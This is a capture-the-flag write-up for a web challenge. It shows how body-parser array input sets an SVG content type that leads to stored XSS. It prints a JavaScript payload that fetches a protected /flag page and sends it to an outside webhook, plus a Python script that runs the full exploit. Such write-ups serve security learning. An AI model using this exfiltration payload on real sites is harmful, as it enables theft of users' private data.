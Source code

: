 ```javascript
```

Running the above application and the following commands, we can see how `body-parser` parses the request body to produce the desired JavaScript object of an array.

```bash
node app.js 
Server listening on port 3000.
> curl -X POST http://localhost:3000/test --data "test=bruh"
{ test: 'bruh' }
> curl -X POST http://localhost:3000/test --data "test[]=bruh"
{ test: [ 'bruh' ] }
```

## Exploitation

Now that we know how to pass an array into the `type` value, we can now exploit the vulnerability. One will notice that the `/flag` endpoint can only be accessed by the admin bot and is checked by the admin bot's cookie. Attempting to exfiltrate the admin bot's cookie would not lead to much success as the cookie is marked as `HttpOnly` and cannot be accessed by JavaScript. This is where a common XSS technique comes into play to bypass this restriction. We can make a request first on the `/flag` endpoint to get the flag and then send that as the body of another request to a server we control. This allows the `HttpOnly` restriction to be bypassed as the request to the `/flag` endpoint as the value of the cookie is not being accessed by any of the client-side scripts. This can be done with the following JavaScript.

```javascript
fetch("/flag").then(res => res.text()).then(text => fetch("https://eoszwikoix9fv9q.m.pipedream.net", {
    method: "POST",
    body: text
}))
```

Once we set up our own webhook to receive the flag, we are ready to perform the full exploit.

## Solution
The full exploit requires first creating a card and getting the produced UUID to then update the contents of the card to contain the SVG with the JavaScript payload. I wrote the following Python script to perform the exploit and prints out the URL with the exploit set up.

```python
import requests

url = "https://hallmark.web.actf.co/card"

resp = requests.post(url, data={"svg": "cake", "content": "a"})

uuid = resp.url.split("=")[-1]

payload = """<script>fetch("/flag").then(res => res.text()).then(text => fetch("https://eoszwikoix9fv9q.m.pipedream.net", {method: "POST", body: text}))</script>"""
svg = """<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">""" + payload + """</svg>"""

r = requests.put(url, data={"id": uuid, "type[]": "image/svg+xml", "svg": "snowman", "content": svg})

print("Solve:", resp.url)
```

